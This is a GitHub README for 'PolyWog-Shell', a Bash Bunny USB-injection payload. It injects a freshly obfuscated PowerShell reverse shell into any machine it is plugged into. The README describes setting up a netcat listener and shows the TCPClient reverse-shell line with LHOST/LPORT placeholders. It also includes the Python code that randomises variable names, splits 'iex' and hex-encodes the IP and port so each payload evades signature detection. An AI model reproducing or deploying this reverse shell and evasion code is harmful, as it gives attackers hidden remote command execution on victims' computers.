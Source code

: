 
# PolyWog-Shell 
### By: Hak5Peaks


## PolyWog Shell Description. 

PolyWog shell is a reverse shell generator designed for the Bash Bunny. This payload uses a python2 + bash script to generate a powershell payload with a unique signature. Every time the Bash Bunny is plugged into a computer, a unique powershell script will be injected into the target machine. 

The python2 script uses a base powershell payload and randomizes/obfuscates parts of the powershell payload. Using methods such as variable and string Obfuscation and IP and Port Encoding

## LED. 

- Blue, payload has started and is running.
- Red, Payload failed, most likely due to missing `shell.py`
- Green, payload has completed. 


## Configuations. 

This script requires minimal configuration. simply launch a nc listener `nc -lvnp PORT` and copy the IP and Port from your listener into the IP and Port variable on the payload. Then place the python2 script `shell.py` inside of the `tools` directory of the udisk.
 

### Shell + Payload configuation Example
<div style="display: flex; justify-content: center; gap: 10px;">
    <img src="https://github.com/user-attachments/assets/874226a5-6d3e-47d4-93bd-70fbf0ef5d2a" width="45%">
    <img src="https://github.com/user-attachments/assets/7f656678-575e-43b3-8988-a60a70b01169" width="45%">
</div>

### Udisk configuration Example

![image](https://github.com/user-attachments/assets/daf4b620-5d38-4ceb-86b0-95edafd0494d)


## Requirements. 

Ensure correct configuation as stated above. There are `no` other requirments or external packages that need to be install. 




# For anyone interest in the code! ↓




## Code break down - Base powershell script. 

![image](https://github.com/user-attachments/assets/4fb614fe-7593-4b43-ac6c-46bcecf88b3d)


This is the base powershell script that is plugged into the python2 script. It is a simple reverse shell that uses `System.Net.Sockets.TCPClient` to make remote connections to our netcat listener. This connection is TCP connection is kept open and the script waits for a response back from the netcat server and runs the results in shell  using `Invoke-Expression` Once a command is received and ran the output of the command is sent back using `StreamWriter` to the remote IP and Port specified in the powershell payload. Very simple :D 



## Code break down - Python obfuscator script. 

![image](https://github.com/user-attachments/assets/a4c96bab-5d59-43c3-b1d8-099a7b43eb1a)

This is the python script that stores our original powershell payload. The python script's job is to use regexing to modify, randomize and replace parts of our original powershell payload in order to create a brand new payload that achieves the same functionality as the original. 

It does it using these functions, 

First, when the script is called it takes in our command line arguments from the bash script and stores them as variables within the script 
```
ip = sys.argv[1]
port = sys.argv[2]
```
Second, the script replaces our IP and Port within out powershell payload, 
```
script = """$tcp=New-Object System.Net.Sockets.TCPClient('*LHOST*',*LPORT*);...
```
Third, the python script looks for variables names within our powershell payload and replaces them with random letters 
```
var_dict = {}
pattern = re.compile(r'(?!\$PSHOME)(\$[A-Za-z][A-Za-z0-9]+)')
def replace_var(match):
    var_name = match.group(1)
    if var_name not in var_dict:
        var_dict[var_name] = '$' + ''.join(random.sample(string.ascii_letters + string.digits, 10))
    return var_dict[var_name]

script = pattern.sub(replace_var, script)
```
Resulting in a output similar to this `$tcp -> $aBc123dEf4` 
 
Then, the python script will search for certain commands such as `iex` that can be easily changed. without creating conflicts. `iex -> i''ex`
```
pattern = re.compile(r'\biex\b')
script = pattern.sub("i''ex", script)
```
The script then moves on to convert our IP and port numbers to hex. 

```
pattern = re.compile(r'\b(?!65535)([1-9]\d{1,3}|[1-5]\d{4}|6[0-4]\d{3}|65[0-4]\d{2}|655[0-2]\d|6553[0-5])\b')
def port_to_hex(match):
    port_number = int(match.group())
    return hex(port_number)

script = pattern.sub(port_to_hex, script)
```
The brand new powershell payload is stored as shell.txt so its contents can later be used inside out bash bunny payload. 



